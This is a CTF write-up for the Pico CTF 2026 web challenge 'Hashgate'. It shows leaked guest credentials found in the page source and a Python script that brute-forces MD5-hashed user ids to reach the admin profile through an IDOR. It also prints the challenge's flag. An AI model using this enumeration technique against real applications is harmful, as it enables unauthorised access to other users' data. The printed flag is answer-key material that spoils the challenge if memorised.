


# Hashgate — Pico CTF 2026

> **Room / Challenge:** Hashgate (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Hashgate (web)
- **Target / URL:** `https://play.picoctf.org/events/79/challenges/750?category=1&page=1`

---

## Goal

Brute-force the user id to get the flag.

## My Solution

View the page source, saw a note that help us to login as `guest`:

```html
<!-- Email: guest@picoctf.org Password: guest -->
```

Login with the given credentials:


We don't have admin priviledges, but there is a vulnerability, the url right now is:

```
http://crystal-peak.picoctf.net:53543/profile/user/e93028bdc1aacdfb3687181f2031765d
```

The user id `e93028bdc1aacdfb3687181f2031765d` is md5 hash, decrypt this we got `3000`, maybe it is the user id, so I tried to increase this user id so search for the profile of admin.

```python
import hashlib
import requests

base_url = "http://crystal-peak.picoctf.net:53140/profile/user/"

print("Starting brute-force...")

for i in range(3001, 3050):
    user_id = str(i)
    md5_hash = hashlib.md5(user_id.encode()).hexdigest()

    print(f"TRIED {i}")

    url = f"{base_url}{md5_hash}"
    response = requests.get(url)

    print(response.text)

    if "User not found" not in response.text:
        print(f"[!] SUCCESS! Admin ID is likely {user_id}")
        print(f"URL: {url}")
        break

    if i % 500 == 0:
        print(f"Checked up to ID {i}...")

print("Done.")
```

Got admin profile and the flag


Flag: `picoCTF{id0r_unl0ck_c642ae68}`
